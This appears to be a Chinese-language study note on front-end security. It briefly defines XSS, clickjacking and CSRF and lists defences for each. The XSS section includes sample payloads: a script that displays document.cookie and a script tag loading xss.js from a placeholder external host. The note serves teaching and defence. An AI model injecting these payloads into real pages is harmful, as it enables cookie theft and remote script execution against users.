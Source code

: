 # 前端涉及到的安全

## XSS

> 跨站脚本注入攻击，通过向web插入Script脚本代码，当用户浏览界面时候，嵌入的脚本就会执行攻击用户。目前主要分为存储型、反射型、DOM型
```
<svg onload="alert(1)">
<script>alert(document.cookie)</script>      #弹出cookie
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
```
### 预防
* 输入验证过滤
* 设置httpOnly
* 进行特殊转义
* 设置http头部 XSS-Protection


## 点击劫持
> 利用透明的覆盖层或者iframe来欺骗用户在不知情的情况下点击类似无害的按钮


### 预防
* HTTP X-Frame-Options 响应头设置DENY
* 代码里边判断是否界面在iframe中

## CSRF
> 伪造请求来利用互用已验证的状态喜爱发出非预期请求，可能进行支付、密码修改、删除数据

### 预防
* 提交使用SCRF Token
* 验证Referer头部
* 避免自动登录记住密码